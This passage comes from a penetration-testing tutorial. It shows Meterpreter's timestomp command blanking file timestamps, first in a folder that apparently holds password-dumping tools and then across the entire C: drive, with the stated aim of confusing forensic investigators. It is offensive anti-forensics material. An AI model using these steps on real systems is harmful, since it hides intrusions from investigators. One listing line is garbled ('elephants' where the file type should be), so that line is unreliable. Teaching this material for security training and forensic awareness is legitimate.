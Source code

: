 You can empty the timestamp of all files in a folder using the `-r` option of the `timestomp` command.

```bash
meterpreter > timestomp antivirus -r
> Blanking directory MACE attributes on antivirus

meterpreter > ls
40777/rwxrwxrwx 0 dir 1980-01-01 00:00:00 -0700 ..
100666/rw-rw-rw- 115 fil 2106-02-06 23:28:15 -0700 servpw.exe
100666/rw-rw-rw- 12165 fil 2106-02-06 23:28:15 -0700 pstgdump.exe
```

We changed or made the timestamp blank with the methods described above, but careful forensics researchers will notice this oddity.

Instead, you may want to consider changing the timestamp of the entire system. In this case, it will be completely confused as to which file was created or modified and when. Since there is no other file to compare it to, things will get even more complicated.

This situation clearly shows that there is an intervention in the system, and it will make the job of forensics investigators difficult.

## Changing the Time Information of the Entire System

```bash
meterpreter > pwd
C:WINNT\antivirus
meterpreter > cd ../..
meterpreter > pwd
C:
meterpreter > ls

Listing: C:\
**=============**

Mode Size Type Last modified Name
---- ---- ---- ------------- ----
100777/rwxrwxrwx 0 fil Wed Dec 31 19:00:00 -0500 1969 AUTOEXEC.BAT
100666/rw-rw-rw- 0 fil Wed Dec 31 19:00:00 -0500 1969 CONFIG.SYS
40777/rwxrwxrwx 0 dir Wed Dec 31 19:00:00 -0500 1969 Documents and Settings
100444/r--r--r-- 0 fil Wed Dec 31 19:00:00 -0500 1969 IO.SYS
100444/r--r--r-- 0 fil Wed Dec 31 19:00:00 -0500 1969 MSDOS.SYS
100555/r-xr-xr-x 34468 fil Wed Dec 31 19:00:00 -0500 1969 <a href="http://ntdetect.com/">NTDETECT.COM</a>
40555/r-xr-xr-x 0 dir Wed Dec 31 19:00:00 -0500 1969 Program Files
40777/rwxrwxrwx 0 dir Wed Dec 31 19:00:00 -0500 1969 RECYCLER
40777/rwxrwxrwx 0 dir Wed Dec 31 19:00:00 -0500 1969 System Volume Information
40777/rwxrwxrwx 0 dir Wed Dec 31 19:00:00 -0500 1969 WINNT
100555/r-xr-xr-x 148992 fil Wed Dec 31 19:00:00 -0500 1969 arcldr.exe
100555/r-xr-xr-x 162816 fil Wed Dec 31 19:00:00 -0500 1969 arcsetup.exe
100666/rw-rw-rw- 192 fil Wed Dec 31 19:00:00 -0500 1969 boot.ini
100444/r--r--r-- 214416 fil Wed Dec 31 19:00:00 -0500 1969 ntldr
100666/rw-rw-rw- 402653184 fil Wed Dec 31 19:00:00 -0500 1969 pagefile.sys

meterpreter > timestomp C:\\ -r
> Blanking directory MACE attributes on C:\
meterpreter > ls
meterpreter > ls

listing: C:\
**============**

Mode Size Type Last modified Name
---- ---- ---- ------------- ----
100777/rwxrwxrwx 0 elephants 2106-02-06 23:28:15 -0700 AUTOEXEC.BAT
```
